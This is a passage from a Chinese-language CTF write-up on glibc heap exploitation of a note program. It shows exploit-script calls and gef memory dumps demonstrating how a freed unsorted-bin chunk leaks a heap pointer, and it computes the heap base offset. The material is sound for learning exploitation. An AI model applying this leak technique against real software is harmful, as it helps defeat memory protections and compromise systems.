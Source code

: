 ```c
delete_note(2)
delete_note(0)
```

此时看一下 `unsorted bin`
```c
[+] unsorted_bins[0]: fw=0x11e8820, bk=0x11e8940
 →   Chunk(addr=0x11e8830, size=0x90, flags=PREV_INUSE)   →   Chunk(addr=0x11e8950, size=0x90, flags=PREV_INUSE)
```
链表中：`unsorted bin | chunk 0 | chunk 2 `
大致是这样 `unsorted bin` 的 `fd` 指向下一个，也就是 `chunk 0`,`bk` 指向前一个，也就是 `chunk 2`
我们来看一下 `chunk 0` 和 `chunk 2` 的信息：
```c
gef➤  x/16gx 0x11e8830-0x10
0x11e8820:	0x0000000000000000	0x0000000000000091
0x11e8830:	0x00000000011e8940	0x00007f30b78c1b78 => chunk 0的 fd 指向 chunk 2,bk 指向 unsorted Bin 头。
0x11e8840:	0x4141414141414141	0x4141414141414141
0x11e8850:	0x4141414141414141	0x4141414141414141
0x11e8860:	0x4141414141414141	0x4141414141414141
gef➤  x/16gx 0x00000000011e8940
0x11e8940:	0x0000000000000000	0x0000000000000091
0x11e8950:	0x00007f30b78c1b78	0x00000000011e8820 => chunk 2 的 fd 指向 unsorted bin 头，bk 指向 chunk0. 
0x11e8960:	0x4343434343434343	0x4343434343434343
0x11e8970:	0x4343434343434343	0x4343434343434343

```
我们在 `malloc` 一下，就会将 `chunk 2` 分配出来，泄露 `chunk 2` 的 `bk` 就可以了。

可以来看一下：（在这里重新跑了一下脚本，chunk 的地址变了，不过不影响理解）
目前 `chunk` 的 `ptr` 如下...
```c
gef➤  x/16gx 0x14d6010
0x14d6010:	0x0000000000000100	0x0000000000000002
0x14d6020:	0x0000000000000000	0x0000000000000000
0x14d6030:	0x00000000014d7830	0x0000000000000001
0x14d6040:	0x0000000000000080	0x00000000014d78c0
0x14d6050:	0x0000000000000000	0x0000000000000000
0x14d6060:	0x00000000014d7950	0x0000000000000001
0x14d6070:	0x0000000000000080	0x00000000014d79e0
0x14d6080:	0x0000000000000000	0x0000000000000000
```
此时 `chunk 2` 的信息：
```c
gef➤  x/16gx 0x00000000014d7950-0x10
0x14d7940:	0x0000000000000000	0x0000000000000091
0x14d7950:	0x4141414141414141	0x00000000014d7820 => bk !
0x14d7960:	0x4343434343434343	0x4343434343434343
0x14d7970:	0x4343434343434343	0x4343434343434343
0x14d7980:	0x4343434343434343	0x4343434343434343
```
泄露出来的 `0x00000000014d7820` 就是 `chunk 0` 地址了，当然可以通过计算 `size` 得到 `heap` 基址，也就是 `table chunk` 的地址。但是也可以通过
计算 chunk0-heap 基址得到固定的偏移就好了。
```c
>>> hex(0x00000000014d7820-0x00000000014d6000)
'0x1820'
```
接下来再通过
```c
delete_note(0)
delete_note(1)
delete_note(3)
```
把 `chunk` 都清理掉，并入 `top chunk`.
